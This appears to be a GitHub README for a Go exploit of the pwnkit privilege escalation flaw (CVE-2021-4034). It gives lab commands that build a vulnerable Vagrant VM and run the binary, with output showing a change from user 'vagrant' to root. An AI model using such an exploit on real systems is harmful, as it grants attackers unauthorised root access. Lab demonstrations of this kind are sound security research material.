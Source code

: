 ### Pwnkit-go

This is a working exploit for the pwnkit vulnerability, CVE-2021-4034, written in Go

Give it a try:

```sh
# create a vulnerable vagrant machine
$ make vm
...

# build the binary and scp it to the vagrant box
$ make scp

# ssh onto the vagrant box
$ make ssh

# The default user is "vagrant"
vagrant@ubuntu-focal:$ whoami
vagrant

# execute exploit
vagrant@ubuntu-focal:/tmp$ cd /tmp && ./pwnkit-go
$ whoami
root
```
